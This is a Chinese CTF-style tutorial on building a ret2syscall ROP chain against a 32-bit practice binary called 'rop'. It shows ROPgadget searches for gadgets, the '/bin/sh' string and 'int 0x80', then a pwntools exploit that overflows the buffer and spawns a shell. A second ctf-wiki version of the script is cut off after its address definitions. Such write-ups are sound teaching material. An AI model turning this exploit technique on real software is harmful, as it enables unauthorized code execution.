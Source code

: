 如果说想通过系统调用执行的是：` execve("/bin/sh",NULL,NULL)`（32位程序）

那么 eax 寄存器应该放系统调用号，查看 execve 的系统调用号：

```
 cat /usr/include/asm/unistd_32.h | grep execve 
```

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574326114023-1a1a7dd8-3b3b-4b26-b267-8ab853fc7a6e.png)

得到 11，转换为 16 进制是 0xb，所以 eax 中应该存放 0xb

ebx 应该存放想要执行的 /bin/sh 的地址，还有两个参数设置为 0

所以现在需要做的就是让：

> eax=0xb
>
> ebx=/bin/sh 的地址
>
> ecx=0
>
> edx=0

只需要让栈顶的值是 0xb 然后可以通过 pop eax 达到目的

要用：[ROPgadget](https://github.com/JonathanSalwan/ROPgadget) 来查找

使用命令找到 pop eax：` ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'`

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574335064586-620aa890-57e1-4427-8846-51990871c55c.png)

类似的，通过这条命令寻找控制其他寄存器的地址，找到可以控制多个的！

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574335389884-7affaef4-c92f-49e7-b6d6-c9ce091d9732.png)

同时使用：`ROPgadget --binary rop --string '/bin/sh'` 找到 '/bin/sh' 字符串在什么地方

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574335469653-97f966c2-e116-4976-842a-adffcaefd70a.png)

以及需要的 int 0x80：`ROPgadget --binary rop --only 'int'`

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574335607223-0e92b707-49c5-4e31-9bbf-fcb7a4764a6e.png)

有偏移的长度：

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574336747696-914e4724-c8c3-4ba1-b65d-cb3a93459f68.png)

最后写出 exp：

```python
"""自己写的"""
#!/usr/bin/env python
from pwn import *
p=process('./rop')
int_addr=0x8049421
bin_addr=0x80be408
pop_other_ret=0x806eb90
pop_eax_ret=0x80bb196
payload='a'*112+p32(pop_eax_ret)+p32(0xb)+p32(pop_other_ret)+p32(0)+p32(0)+p32(bin_addr)+p32(int_addr)
p.sendline(payload)
p.interactive()

"""ctf-wiki上的"""
from pwn import *
sh = process('./rop')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
```